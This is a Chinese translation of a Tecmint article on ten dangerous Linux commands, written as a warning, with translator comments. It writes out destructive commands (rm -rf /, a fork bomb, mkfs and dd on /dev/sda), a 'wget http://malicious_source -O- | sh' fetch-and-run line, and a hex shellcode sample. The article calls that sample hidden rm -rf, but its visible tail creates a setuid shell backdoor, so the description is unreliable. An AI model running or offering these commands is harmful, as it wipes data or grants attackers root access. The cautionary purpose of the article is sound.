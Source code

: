 ```yaml
---
author: ''
categories: 技术
comments_data: []
count:
  commentnum: 0
  favtimes: 3
  likes: 1
  sharetimes: 0
  viewnum: 34462
date: '2013-12-07 10:10:00'
editorchoice: false
excerpt: Linux命令行佷有用、很高效，也很有趣，但有时候也很危险，尤其是在你不确定你自己在正在做什么时候。这篇文章并不打算引来你对Linux或linux
  命令行的愤怒。我们只是想让你意识到在你运行某些命令时应该三思而后行。 ...
fromurl: ''
id: 2341
islctt: true
largepic: /data/attachment/album/201312/07/100744lmgomq4g44wwv7mm.jpg
permalink: /article-2341-1.html
pic: /data/attachment/album/201312/07/100744lmgomq4g44wwv7mm.jpg.thumb.jpg
related: []
reviewer: ''
selector: ''
summary: Linux命令行佷有用、很高效，也很有趣，但有时候也很危险，尤其是在你不确定你自己在正在做什么时候。这篇文章并不打算引来你对Linux或linux
  命令行的愤怒。我们只是想让你意识到在你运行某些命令时应该三思而后行。 ...
tags:
- Linux
- 危险
- 命令
thumb: false
title: 永远不要在Linux执行的10个最危险的命令
titlepic: false
translator: Luoxcat
updated: '2013-12-07 10:10:00'
---
```


Linux命令行佷有用、很高效，也很有趣，但有时候也很危险，尤其是在你不确定你自己在正在做什么时候。这篇文章并不打算引来你对**Linux**或**linux 命令行**的愤怒。我们只是想让你意识到在你运行某些命令时应该三思而后行。（译注：当然，以下命令通常都是在root权限下才能将愚蠢发挥到无可救药；在普通用户身份下，破坏的只是自己的一亩三分地。）


![](/data/attachment/album/201312/07/100744lmgomq4g44wwv7mm.jpg)


### 1. rm -rf 命令


**rm -rf**命令是删除文件夹及其内容最快的方式之一。仅仅一丁点的敲错或无知都可能导致不可恢复的系统崩坏。下列是一些**rm 命令**的选项。


* **rm**　命令在Linux下通常用来删除文件。
* **rm -r** 命令递归的删除文件夹，甚至是空的文件夹。（译注：个人认为此处应该是说错了，从常识看，应该是“甚至是非空的文件夹”）
* **rm -f** 命令能不经过询问直接删除‘只读文件’。（译注：Linux下删除文件并不在乎该文件是否是只读的，而只是在意其父目录是否有写权限。所以，-f这个参数只是表示不必一个个删除确认，而是一律悄悄删除。另外，原始的rm命令其实也是没有删除提示的，只是一般的发行版都会将rm通过别名的方式增加-i参数来要求删除确认，而-f则抑制了这个提示。）
* **rm -rf /** : 强制删除根目录下所有东东。（就是说删除完毕后，什么也没有了。。。）
* rm -rf \*:　强制删除当前目录的所有文件。
* **rm -rf .** : 强制删除当前文件夹及其子文件夹。


从现在起，当你要执行**rm -rf**命令时请留心一点。我们可以在“**.bashrc**”文件对‘**rm**‘命令创建**rm -i**的别名，来预防用 ‘**rm**‘命令删除文件时的事故，它会要求你确认每一个删除请求。（译注：大多数发行版已经这样做了，如果还没有，请这样做，并在使用-f参数前一定考虑好你在做什么！译者本人有着血泪的教训啊。）


### 2. :(){:|:&};: 命令


这就是个**fork 炸弹**的实例。具体操作是通过定义一个名为 ‘:‘的函数，它会调用自己两次，一次在前台另一次运行在后台。它会反复的执行下去直到系统崩溃。



```
:(){:|:&};:

```

哦？你确认你要试试么？千万别在公司正式的服务器上实验啊~~


### 3. 命令　> /dev/sda


上列命令会将某个‘**命令**‘的输出写到块设备**/dev/sda**中。该操作会将在块设备中的所有数据块替换为命令写入的原始数据，从而导致整个块设备的数据丢失。


### 4. mv 文件夹 /dev/null


这个命令会移动某个‘**文件夹**‘到**/dev/null**。在Linux中 **/dev/null** 或 **null** 设备是一个特殊的文件，所有写入它的数据都会被清除，然后返回写操作成功。（译注：这就是黑洞啊。当然，要说明的是，通过将文件夹移动到黑洞，并不能阻止数据恢复软件的救赎，所以，真正的彻底毁灭，需要采用专用的软件或者手法来完成——我知道你肯定有些东西想删除得干干净净的。）



```
# mv /home/user/* /dev/null

```

上列命令会将**User**目录所有内容移动到**/dev/null**，这意味着所有东西都被‘卷入’**黑洞　(null)**之中。


### 5. wget http://malicious\_source -O- | sh


上列命令会从一个（也许是）恶意源下载一个脚本并执行。Ｗget命令会下载这个脚本，而**sh**会（无条件的）执行下载下来的脚本。


**注意**: 你应该时刻注意你下载包或脚本的源。只能使用那些从可信任的源中下载脚本/程序。（译注：所以，你真的知道你在做什么吗？当遇到这种需要是，我的做法是，先wget下来，然后我去读一读其中到底写了些什么，然后考虑是否执行。）


### 6. mkfs.ext3 /dev/sda


上列命令会格式化块设备‘**sda**’，你无疑知道在执行上列命令后你的块设备(**硬盘驱动器**)会被格式化，**崭新的!**没有任何数据，直接让你的系统达到不可恢复的阶段。（译注：通常不会直接使用/dev/sda这样的设备，除非是作为raw设备使用，一般都需要将sda分成类似sda1、sda2这样的分区后才使用。当然，无论你使用sda还是sda1，这样对块设备或分区进行mkfs都是毁灭性的，上面的数据都会被蒸发了。）


### 7. > file


上列命令常用来清空文件内容（译注：通常也用于记录命令输出。不过请在执行前，确认输出的文件是空的或者还不存在，否则原来的文件可真是恢复不了了——连数据恢复软件都未必能帮助你了。另外，我想你可能真正想用的是“>>”，即累加新的输出到文件，而不是刷新那个文件。）。如果用上列执行时输入错误或无知的输入类似 “> **xt.conf**”　的命令会覆盖配置文件或其他任何的系统配置文件。


### **8. ^foo^bar**


这个命令在我们[十个鲜为人知的 Linux 命令 - Part 3](http://linux.cn/article-2284-1.html)中描述过，用来编辑先前运行的命令而无需重打整个命令。但当用**<sup> foo <sup>  bar </sup></sup>**命令时如果你没有彻底检查改变原始命令的风险，这可能导致真正的麻烦。（译注：事实上，这种小技巧是译者认为的，少数史前时代遗留下来的无用而有害的“黑客”技巧。）


### 9. dd if=/dev/random of=/dev/sda


上列命令会向块设备**sda**写入随机的垃圾文件从而擦出数据。当然！你的系统可能陷入混乱和不可恢复的状态。（译注：记得上面说过mv到黑洞并不能彻底删除数据么？那么这个命令就是给了你一个彻底删除的方法！当然为了保险起见，你可以覆写多次。）


### 10. 隐藏命令


下面的命令其实就是上面第一个命令 (**rm -rf**)。这里的代码是隐藏在**十六进制**里的,一个无知的用户可能就会被愚弄。在终端里运行下面命令可能会擦除你的**根**分区。


这个命令表明通常真正的危险是隐藏的，不会被轻易的检测到。你必须时刻留心你在做什么结果会怎样。不要编译／运行从未知来源的代码。



```
char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
“\x6e\x2f\x73\x68\x00\x2d\x63\x00″
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;

```

**注意**: 不要在你的或你的同学或学校的电脑里的**Linux**终端或Shell执行以上的任何一个命令。如果你想测试它们，请在虚拟机上运行。任何不和谐或数据丢失，由于运行上面的命令导致你的系统崩溃，文章**作者**和**Tecmint**概不负责。（译注：译者和转载网站也不负责~！）


今天就到此为止吧，我会很快回来这里，同时带上另一篇你们喜欢的文章。到那时请继续关注和访问**Tecmint**。如果你知道任何其他**危险的Linux命令**，也想添加到我们的列表中，请通过评论留言给我们同时也别忘了留下你的宝贵意见。




---


via: <http://www.tecmint.com/10-most-dangerous-commands-you-should-never-execute-on-linux/>


译者：[Luoxcat](https://github.com/Luoxcat) 校对：[wxy](https://github.com/wxy)


本文由 [LCTT](https://github.com/LCTT/TranslateProject) 原创翻译，[Linux中国](http://linux.cn/) 荣誉推出